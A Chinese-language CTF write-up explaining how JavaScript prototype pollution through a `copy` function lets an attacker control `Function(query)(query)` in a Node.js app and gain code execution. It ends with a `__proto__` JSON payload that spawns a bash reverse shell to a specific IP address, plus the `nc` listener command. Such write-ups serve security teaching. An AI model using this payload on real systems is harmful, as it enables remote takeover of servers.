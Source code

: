 运行如上代码可以看到，query的值从"return 111"变为111

![](https://i.loli.net/2021/09/06/sNXoPb8n6SuTJVG.png)

query之所以会改变，是由于原型链污染，js中所有对象的原型都可以被继承到object，而其继承的终点是null对象

![](https://i.loli.net/2021/09/06/aPolLx9OJricbGH.png)

同样的在找不到对应对象/属性时，会遍历object

![](https://i.loli.net/2021/09/06/UrLy6MQGxRZcbY1.png)

因此由于调用`copy`方法时，原型链被污染，导致`query`的值为`"return 111"`

![](https://i.loli.net/2021/09/06/D1BVoJLWEgIQcu9.png)

然后我们会发现`{ query: Function(query)(query)}`为`{ query: 111 }`
也就是`Function(query)(query)=111`

原因如下：

> 每个 JavaScript 函数实际上都是一个 `Function` 对象。运行 `(function(){}).constructor === Function // true` 便可以得到这个结论。

语法：

```js
new Function ([arg1[, arg2[, ...argN]],] functionBody)
```

如下，一个小尝试

![](https://i.loli.net/2021/09/06/T6dqhZQStA5iKIx.png)

那么同理

![](https://i.loli.net/2021/09/07/St7hyHp9DuCr6kN.png)

由此可以控制api中的`{ query: Function(query)(query)}`从而实现rce

那么本题的思路就是利用copy函数进行原型链污染，再利用api.js来rce
这里可以弹个shell从而获取flag

payload：

```json
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"')"}}
```

![](https://i.loli.net/2021/09/07/vJktSTeshuY8zj1.png)

![](https://i.loli.net/2021/09/07/yt5YfMHKZAi4Rsw.png)

然后在vps上nc监听：(ps:使用vps的话，要在安全组选项配置好端口的出入规则--)

```sh
nc -lnvp 6666
```
